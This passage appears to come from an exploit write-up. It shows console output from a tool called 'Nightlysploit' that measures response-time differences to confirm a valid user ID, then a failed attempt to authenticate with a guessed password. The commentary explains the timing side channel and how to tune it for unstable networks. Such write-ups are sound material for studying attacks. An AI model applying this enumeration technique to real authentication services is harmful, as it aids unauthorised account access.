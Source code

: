 ```
[~] Test n°4 : 0.229774
[+] BANGARANG !
[~] Test n°5 : 0.208620
[+] BANGARANG !
[~] Test n°6 : 0.193230
[+] BANGARANG !
[~] Test n°7 : 0.204750
[+] BANGARANG !
[~] Test n°8 : 0.215756
[+] BANGARANG !
[~] Test n°9 : 0.211181
[+] BANGARANG !
[~] Test n°10 : 0.196094
[+] BANGARANG !
[~] Test n°11 : 0.213732
[+] BANGARANG !
[~] Test n°12 : 0.197914
[+] BANGARANG !
[~] Test n°13 : 0.195056
[+] BANGARANG !
[~] Test n°14 : 0.210873
[+] BANGARANG !
[~] Test n°15 : 0.201116
[+] BANGARANG !
[~] Test n°16 : 0.218596
[+] BANGARANG !
[~] Test n°17 : 0.216802
[+] BANGARANG !
[~] Test n°18 : 0.215007
[+] BANGARANG !
[~] Test n°19 : 0.222972
[+] BANGARANG !
[~] Test results : 3243 seems to be 100.000000% valid.
[+] User ID : 3243 don't seems to be a false positive.
Enter password (cancel with 'quit')
Nightlysploit $> 
```
We can see a **high** difference between a bad user id and a good user id. (+0.15 seconds)

If the network is *unstable*, we just have to raise the number of zeroes to compress. 

Ok, we have a good user id, but we don't have a password...

Let's see if we enter a random password...

```
Nightlysploit $> nico
[~] Sending get_challenge
[~] Got challenge... Sending auth.
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
[~] Auth failed...
```
Ok, it doesn't work.
